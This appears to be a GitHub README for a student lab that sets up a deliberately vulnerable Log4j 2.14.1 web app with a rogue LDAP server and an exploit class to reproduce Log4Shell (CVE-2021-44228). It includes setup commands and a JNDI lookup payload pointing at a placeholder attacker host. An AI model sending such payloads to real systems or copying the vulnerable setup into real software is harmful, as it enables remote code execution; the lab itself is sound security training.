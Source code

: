 # CVE-2021-44228 Log4jShell WebApp

This is a minimal Java web application vulnerable to **Log4Shell (CVE-2021-44228)**, built with:

- Java + Jetty (embedded)
- Log4j 2.14.1 (vulnerable)
- LDAP-server voor JNDI-exploits
- Simple HTML form
- Java exploit payload ('Exploit.class')

---

## Quick Start

### Prerequisites:
- Debian/Ubuntu-based system
- Internet access
- Python 3
- git
- Java Development Kit (javac)

### Clone the repository:
```bash
git clone https://github.com/SanderSchepers1993/CyberSec25.git
cd CyberSec25/scripts
```

### Run the setup script:
```bash
chmod +x run_exploit.sh
./run_exploit.sh
```

Open your browser and visit:
[http://localhost:8080](http://localhost:8080)

---

## Test Payload (work in progress)

Submit the following payload to the form:
```text
${jndi:ldap://Attacker-IP:ldap-port/a}
```
This will be **logged by Log4j**, potentially triggering the Log4Shell exploit **if you have a rogue LDAP server running**.

---

## Project Structure
```
CyberSec25/
├── Exploit/
    └── Exploit.java/class
├── ldap/
    └── LDAP-SERVER (JNDI redirector)
├── webapp/
    └── Kwetbare webapp (Jetty + log4j)
└── libs/
    └── Dependencies (via setup.sh)
├── scripts/
    ├── run_exploits.sh
    └── setup.sh
├── README.md
└── test_payload.txt
```

---

## Disclaimer
This project is intentionally vulnerable. Use responsibly in **isolated test environments** only. The author takes no responsibility for misuse.
